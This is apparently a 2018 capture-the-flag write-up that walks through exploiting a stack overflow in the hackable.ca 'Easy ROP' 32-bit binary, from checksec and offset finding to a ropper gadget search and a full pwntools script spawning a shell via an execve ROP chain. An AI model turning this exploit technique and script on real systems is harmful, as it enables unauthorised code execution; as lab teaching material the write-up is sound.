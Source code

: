 Title: Hackable.ca Easy ROP
Date: 2018-7-30 10:02
Modified: 2018-7-30 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation, rop
Slug: hackable_ca_easyROP
Authors: F3real
Summary: How to solve hackable.ca Easy ROP

In this post we are going to take a look at one of challenges from [http://hackable.ca/](http://hackable.ca/). It is (not so) Easy ROP challenge. First lets run `file` on binary they provided:

    root@kali:~/ctf/hackable.ca_easyROP# file ropeasy_updated 
    ropeasy_updated: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=61d5d8b74151b4dfa900d5e2d66b9c2e0adcfa85, not stripped

We see it is 32bit non stripped ELF program, since we don’t have source code we can use IDA to get pseudocode (`F5` hotkey while in function).

~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax@1

  v3 = _x86_get_pc_thunk_ax(&argc);
  puts(&aTryRunningBinS[v3 - 134515245]);
  smashMe();
  return 0;
}

int smashMe()
{
  char v1; // [sp+Ch] [bp-Ch]@1

  printf("\nuser input: ");
  fflush(stdout);
  return gets(&v1);
}
~~~

It is really simple executable with obvious overflow in `smashMe` (`gets` function). We are also going to check security features enabled on this binary.

    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial

We see that only NX (Non-executable memory) bit is set. Good thing is that, since PIE is disabled, addresses won’t change which makes our job easier. I am using `checksec` command from `gdb-peda` (really helpful extension for `gdb`), but there is also standalone script for it. Let’s try running the binary:

    root@kali:~/ctf/hackable.ca_easyROP# ./ropeasy_updated

    try running /bin/sh

    user input: test

Program asks us for input and immediately quits. First let’s try to find address of `system` and `/bin/sh`.

    gdb-peda$ p system
    No symbol table is loaded.  Use the "file" command.

It seems that `system` is not linked in this binary. This makes ROP harder but we can use `execve` syscall to run `/bin/sh`. One of other things we have to do is find offset of `EIP`. We can create pattern in `gdb-peda`:

    gdb-peda$ pattern create 20
    'AAA%AAsAABAA$AAnAACA'

When we give this pattern (if it is long enough) to program it will crash with `SIGSEGV` (segmentation fault). This pattern is non-repeatable so we can tell `gdb-peda` to look for it in registers after program segfault and determine offsets.

    gdb-peda$ pattern search

![Easy rop pattern search]({static}/images/2018_7_30_easyRop1.png){: .img-fluid .centerimage}

We see that `EIP` offset is at 16 and that we also have `EBX` at 8. One of things to note is that `gdb` can modify stack a bit (because of environment variables) so it is better to run program and then attach `gdb` to it then to run it inside `gdb`.

To get `execve` syscall we need following arguments:

    EAX      0x0b      //identifies execve syscall
    EBX      /bin/sh
    ECX      0
    EDX      0

To find ROP gadgets we need we are going to use [**ropper**](https://github.com/sashs/Ropper). Lets look for `int 0x80; ret;` first since it is required for syscall.

~~~text
root@kali:~/ctf/hackable.ca_easyROP# ropper --file ropeasy_updated --search "int 0x80; ret;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: int 0x80; ret;

[INFO] File: ropeasy_updated
0x08070470: int 0x80; ret;
~~~

We are going to repeat this procedure to find other gadgets we need as well.

    0x080b94a6: pop eax; ret;
    0x0806feaa: pop edx; ret;  
    0x0806fed1: pop ecx; pop ebx; ret;

Since we couldn’t find simple `pop ecx; ret;` we are using closest one we could find. Procedure to find address for `/bin/sh` is a bit different. All static strings are stored in `.rodata` section (*read-only-data*) in ELF binaries. We can find address using:

    root@kali:~/ctf/hackable.ca_easyROP# objdump -s -j .rodata ./ropeasy_updated  | grep /bin/sh
     80bc660 6e67202f 62696e2f 7368002e 2e2f6373  ng /bin/sh.../cs

We don’t get exact address so we need to add offset (`0x03`). So lets combine all of this together:

    "AAAA"
    "AAAA"  
    "AAAA"
    "AAAA"
    0x080b94a6    # pop eax; ret;
    0x0000000b    # argument for execv
    0x0806feaa    # pop edx; ret;
    0x00000000    # we need 0 in EDX
    0x0806fed1    # pop ecx; pop ebx; ret;
    0x00000000    # we need 0 in ECX
    0x80bc660+0x3 # /bin/sh
    0x08070470    # int 80; ret;

We could have also overwritten `EBX` sooner but, since in gadget for `ECX` we have `pop EBX` again, it is not needed. Now let’s write **pwntools** script implementing this exploit.

~~~python
from pwn import *

context.arch = 'i386'
context.terminal = 'tmux'

r = remote('pwnable.hackable.ca',  9999)
print r.recvuntil('user input: ')

addr_1 = p32(0x80bc660+0x3)   # /bin/sh
addr_2 = p32(0x08070470)      # int 80; ret;
addr_3 = p32(0x080b94a6)      # pop eax; ret;
addr_4 = p32(0x0806feaa)      # pop edx; ret;
addr_5 = p32(0x0806fed1)      # pop ecx; pop ebx; ret; 

payload = "A"*16 + addr_3 + "\x0b" + "\x00"*3 + addr_4 + "\x00"*4 + addr_5 + "\x00"*4 + addr_1 + addr_2
print payload
r.send(payload)
r.interactive()
~~~

And running it, we get the flag :D

![Easy rop flag]({static}/images/2018_7_30_easyRop2.png){: .img-fluid .centerimage}

***

Making ROP chain involves a lot of tinkering and failing so it is really helpful to inspect core files (from segfaults).

    gdb ./ropeasy_updated ./core

After that we can inspect register state at time of crash with `i r` and stack state with `i s`.
